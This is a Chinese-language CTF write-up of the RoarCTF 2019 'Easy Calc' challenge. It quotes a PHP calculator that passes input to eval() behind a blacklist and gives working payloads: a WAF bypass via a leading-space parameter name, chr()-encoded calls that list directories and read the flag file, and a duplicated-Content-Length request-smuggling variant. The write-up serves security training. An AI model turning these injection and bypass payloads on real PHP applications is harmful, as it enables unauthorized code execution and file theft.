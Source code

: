 # Easy Calc

[题目地址](https://buuoj.cn/challenges#[RoarCTF%202019]Easy%20Calc)

php真的是个大聪明。

给了个计算器。算了个1+1后开始想怎么搞事情。测试了ssti，没有。单引号闭合也不行，直接显示被过滤。检查网页。

```html
<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
</script>
```

还有个calc.php。内容很简单。

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

/m是php里的[正则修饰符](https://blog.jam00.com/article/info/27.html),表示搜索字符串的每一行。不加这个符号遇到换行符会停止。preg_match第一个参数是正则表达式，第二个参数是搜索的字符串。正则表达式的第一个/没有特殊意义。看了一下，别的还好，就是路径必须的符号过滤了，单引号也是。不过我们的php太厉害了，有独特的[字符串解析特性](https://www.freebuf.com/articles/web/213359.html)。

PHP将查询字符串（在URL或正文中）转换为内部$_GET或的关联数组$_POST。例如：/?foo=bar变成Array([foo] => "bar")。值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替。例如，/?%20news[id%00=42会转换为Array([news_id] => 42)。

假如我们在get参数前面加一个空格，php还能解析这个参数，但是waf不行了。比如这道题，如果传? num=xxx，php收到的内容是 num，空格属于特殊字符，会被删除，变成了num，正常解析。但是waf就不一样了，它收到 num就是 num， num不等于num，写的过滤条件就没用了。由此绕过waf。先用[scandir](https://www.runoob.com/php/func-directory-scandir.html)看看有啥。

- http://node4.buuoj.cn:29549/calc.php?%20num=var_dump(scandir(chr(47)))

var_dump是因为scandir的结果是数组，不dump看不出来。chr(47)是/号，绕calc.php里的过滤（calc.php里面有一层过滤，源码注释里写的“开了waf”是另一种过滤。 num绕的是waf，chr(47)绕的是calc.php，并不是 num没用）。发现f1agg文件。拼一下payload，用[file_get_contents](https://www.runoob.com/php/func-filesystem-file-get-contents.html)读取文件。

```python
data='/f1agg'
for i in data:
    print(f"chr({ord(i)})",end='.')
```

- http://node4.buuoj.cn:29549/calc.php?%20num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))

得到flag。还有另一种解法，利用[http请求走私](https://qwzf.github.io/2019/10/27/%E4%BB%8E%E4%B8%80%E9%81%93%E9%A2%98%E5%88%B0HTTP%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/)。

```
GET /calc.php?num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)) HTTP/1.1
Host: node4.buuoj.cn:29549
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length:6
Content-Length:6

a
```

注意这次我们没有在num前加空格，只是绕过了calc.php的过滤，仍然可以执行成功。a必须写一个，或者写点别的，不写似乎出不来。

### Flag
- flag{3832c6f8-cfbb-4c28-9f38-f7fe5630e3f6}